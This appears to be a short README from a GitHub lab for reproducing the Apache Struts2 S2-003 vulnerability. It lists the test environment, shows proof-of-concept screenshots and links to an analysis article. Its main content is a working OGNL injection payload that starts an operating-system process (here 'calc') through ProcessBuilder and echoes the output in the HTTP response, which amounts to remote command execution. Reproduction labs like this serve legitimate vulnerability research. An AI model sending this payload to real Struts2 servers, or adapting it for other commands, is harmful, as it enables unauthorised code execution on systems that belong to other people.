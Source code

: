 ## Struts2 S2-003

### Environment

Struts2 Version: `struts-2.0.1-all`

Tomcat: `8.5.53`

IDE: `idea 2020.1.1`

Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

### POC

![{BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731]({BAE4AA09-A99E-47E7-8197-E7006D373882}_20200619165731.jpg)

![{FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042]({FDDB7DE1-A721-4C4B-A719-BEA79D4F0AC0}_20200619170042.jpg)

### payload

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`

### Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2044)


